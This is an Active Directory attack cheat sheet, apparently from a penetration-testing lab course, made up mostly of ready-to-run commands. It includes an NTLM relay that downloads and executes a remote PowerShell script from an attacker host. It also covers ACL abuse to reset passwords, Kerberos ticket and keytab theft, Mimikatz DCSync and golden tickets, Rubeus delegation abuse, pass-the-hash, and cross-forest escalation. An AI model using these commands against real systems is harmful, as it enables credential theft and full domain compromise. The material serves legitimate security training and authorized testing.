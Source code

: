 # Active Directory Cheat Sheet

## NTLM Relay
```powershell
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.216.152 -c 'C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -c iex(iwr -useb http://192.168.45.185/run.txt)'

```

## BloodHound
```powershell
neo4j console
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain XXX.local -ZipFileName loot.zip
```

## AD Object Security Permission
### Check Generic All
**Logic**: Use GenericAll permission → modify related password to gain access
```powershell
# Check Generic All
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Exploitation 
net user [UserName] [Password] /domain
net group [UserGroup] [UserName] /add /domain
```

### Check DACL
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check WriteDACL
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

#Change Permission to Generic ALL
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All

# Recheck
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Kerberos Operation (Linux)
### General Command
```bash
#Checking if Kerberos exists
env | grep KRB5CCNAME

#Initiate of Keberos TGT
kinit

#Checking existing TGT
klist

#Checking SPNs
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName

#Initiate ST
kvno MSSQLSvc/DC01.corp1.com:1433
```

### Path 1: Stealing Ticket File 
**Logic**: Steal ticket file (with sudo right) → Change Ticket Owner → Request TGT and ST
```bash
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown offsec:offsec /tmp/krb5cc_minenow
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
kvno MSSQLSvc/DC01.corp1.com:1433
```

**Impacket Version with proxychain**
```bash
#In Victim
ssh offsec@linuxvictim -D 9050

#Example of operation
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

### Path 2: Stealing KeyTab File
**Logic**: Steal Ticket File (Incorrect permission configured) → Kinit
```bash
#Kinit using keytab file
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab

#SMB For testin
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
```
## Kerberos Operation (Windows)
### Unconstrainted Delegation
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check Unconstrainted Delegation
Get-DomainComputer -Unconstrained

# Export Ticket
sekurlsa::tickets /export

# Import again to elevate permission
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

# DC Sync
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

### Constrainted Delegation
**Logic**: Check TrustedtoAuth firled for the user (**msds-allowedtodelegateto**) → Generate TGT → S4U Authentication → Modify authentication for alt service 
```powershell
# Check Trusted to Auth
Get-DomainUser -TrustedToAuth

#Generate TGT
.\Rubeus.exe hash /password:lab
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

#Perform authentication/ alt service authentication
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

### Resource Constrainted Constrainted Delegation
**Logic**: GenericAll on Computer Object → Check Machine Account Quota → Creat Machine Account and put into msDS-AllowedToActOnBehalfOfOtherIdentity → Create S4U 
```powershell
# Check GenericAll
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Check Machine Account Quota
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

# Add Machine Account
. .\powermad.ps1
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
Get-DomainComputer -Identity myComputer

# Check SID and Convert to Binary Formmat
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

#Assign Binary format SID into msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
.\Rubeus.exe hash /password:h4x
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

## Within Forest Operation
**Logic**: Check Forest Trust first (Direct_Inbound & Direct_Outbound) inside **Flags**
**Key**: TrustAttributes: WITHIN_FOREST (Inside Same Forest), FOREST_TRANSITIVE (Outside Forest)
### Enumeration
```powershell
Get-DomainTrust -API
Get-DomainTrust
Get-DomainUser -Domain corp1.com
```
**Logic**: SYSTEM at Primary Domain (Prod.corp1.com) + Corp1$ NTLM Hash inside Prod.corp1.com → SYSTEM at Secondary Domain (Corp1.com)
```powershell
#Mimikatz Get Domain Hash
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

Get-DomainSID -Domain prod.corp1.com 
Get-DomainSid -Domain corp1.com 

kerberos::golden /user:h4x /domain:<Domain Name> /sid:<Domain SID> /krbtgt:<NTLM of KRBTGT> /sids:<External Forest Enterprise Admin SID> /ptt
```

## Extra-Forest Operation
### Enumeration
**Attack Path 1:** Enumeration of External Trusted Group → Compromise the account → Gain Extenral Forest 
**Attack Path 2:** Gain KRBTGT Hash → SIDS 
**ATtack Path 3:** Gain LinkedSQL in both domains
```powershell
#PowerView 
Get-DomainTrustMapping

#Check groups in a trusted forest or domain that contains non-native members
#Compromise this account can easily gain access to the forest
#Check MemberName: SID field
Get-DomainForeignGroupMember -Domain corp2.com 
convertfrom-sid <SID>

#Check LinkedSQL
setspn -T prod -Q MSSQLSvc/*
```

### Exploitation
```powershell
lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
Get-DomainSID -domain corp1.com
Get-DomainSID -domain corp2.com

#Check Forest Group SID must be larger than 1000, it must be > 1000 (Custom Group in External Forest)
Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
kerberos::golden /user:h4x /domain:<Domain> /sid:<Domain SID> /krbtgt:<Domain NTLM Hash of KRBTGT> /sids:<External Forest Enterprise Admin SID Custom Group>  /ptt
```


### Mimikatz/Rubeus PTT
```powershell
#Mimikatz
#Pass the Hash
sekurlsa::pth /domain:infinity.com /ntlm:e929e69f7c290222be87968263a9282e /user:ted /run:cmd.exe

# Mimikatz Pass the Ticket
kerberos::golden /domain:infinity.com /ntlm:e929e69f7c290222be87968263a9282e /user:ted /target:dc03 /ptt
misc::cmd

# Mimikatz DC SYNC
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

# Rubeus Pass the Ticket
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /ptt
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
